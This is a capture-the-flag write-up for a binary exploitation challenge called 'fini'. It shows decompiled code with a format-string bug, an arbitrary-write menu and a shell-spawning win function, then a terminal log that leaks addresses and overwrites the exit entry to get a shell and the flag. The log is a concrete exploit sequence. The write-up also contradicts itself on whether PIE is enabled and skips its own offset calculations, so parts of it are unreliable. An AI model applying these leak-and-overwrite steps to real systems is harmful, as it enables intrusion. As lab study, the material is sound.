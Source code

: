 # fini

![Proof](proof.png)

**Author:** `thek0der`  
**Solves:** 46

**writeup made by** `vlad`
---

## Description

Hope you can FINIsh this challenge.

We get a `challange` binary

---

## Solve

First i connected to the remote server to see what we get.

When we connect we get the following output:

```
nc ctf.ac.upt.ro 9178
=== FINIsh this challenge ;) ===
What's your name?
test
Hello, test
!
1) write
2) exit
> 
```

I inputed `test` when it asked for input and we got disconnected.

The next step is to analyze the binary localy we can first run checksec to check its properties.

```
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/Users/vlad/Downloads/acctf/AC-CTF-Quals/pwn/baby-bof/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Next i opened up the file in `IDA Professional 9.1` and we saw 2 intresting functions: main and win.

After decoding each one we see the following code:

### main:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-B4h] BYREF
  _QWORD *v5; // [rsp+8h] [rbp-B0h] BYREF
  char s[168]; // [rsp+10h] [rbp-A8h] BYREF

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("=== FINIsh this challenge ;) ===");
  puts("What's your name?");
  fgets(s, 128, stdin);
  printf("Hello, ");
  printf(s);
  puts("!");
  puts("1) write");
  puts("2) exit");
  while ( 1 )
  {
    printf("> ");
    v4 = 0;
    if ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 )
      break;
    if ( v4 == 1 )
    {
      printf("Addr (hex): ");
      v5 = 0;
      if ( (unsigned int)__isoc99_scanf("%llx", &v5) == 1
        && (printf("Value (hex, 8 bytes): "), *(_QWORD *)s = 0, (unsigned int)__isoc99_scanf("%llx", s) == 1) )
      {
        *v5 = *(_QWORD *)s;
        puts("ok");
      }
      else
      {
        puts("bad input");
      }
    }
    else
    {
      if ( v4 == 2 )
      {
        puts("bye");
        exit(0);
      }
      puts("???");
    }
  }
  return 0;
}
```

### win:

```c
int win()
{
  return system("/bin/sh");
}
```

We can clearly see that there are 3 main problems here.

The first one is that we can use the name using formated strings, this will be helpfull since PIE is enabled.
The seccond one is that we are able to write anywhere in memory as long as we give where and what to write.
The third problem is that the win function gives us a shell, this is really helpfull since we just need to get the code to jump to win.

The main plan is to now leak the memory using formated strings and proceed to calculate the PIE base and than calculate where the call to exit is made and repalce it with a call to win which will drop as to a shell.

I have reattempted this challange for a few hours to explain it properly again since i lost my old calculations but i wasnt able to so bellow is the history from my terminal where i solved this at the actual ctf.

The main goal is to leak the memory and find a address which we can see what it is and see the offset from the pie base than subtract the offset we find from the leak and we get the pie base.

After that we can get the offset of the exit call and win function and calculate those too from the base.

If our calculations are correct the write should return ok and when we type 2 we should drop to a shell where we can do `ls` and see the following files:

```
challenge
disable_aslr.sh
flag.txt
main.c
server.py
```

And inside the flag.txt we can see the flag:

```
cat flag.txt
ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}%  
```

I have pasted bellow the full output history of my terminal from when i solved it at the ctf and also attached a screenshot with my profile on the platform and the terminal next to it to prove i have solved it even if i cannot show exactly how or make a polished script.

```
nc ctf.ac.upt.ro 9932
=== FINIsh this challenge ;) ===
What's your name?
%21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p %29$p %30$p %31$p %32$p %33$p %34$p %35$p
Hello, (nil) (nil) (nil) 0x7ffe84fa7ba8 0x1 (nil) 0x7ffe84fa7bb8 0x559f088c21c8 0x7f1a0d4fa24a (nil) 0x559f088c00b0 0x100000000 0x7ffe84fa7ba8 0x7ffe84fa7ba8 0xb17db9312fcf8029
!
1) write
2) exit
> 1
Addr (hex): 0x559f088c2420
Value (hex, 8 bytes): 0000559f088c0380
ok
> 2
bye
ls
challenge
disable_aslr.sh
flag.txt
main.c
server.py
cat flag.txt
ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}%   
```
![Proof](proof2.png)

### Flag: ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}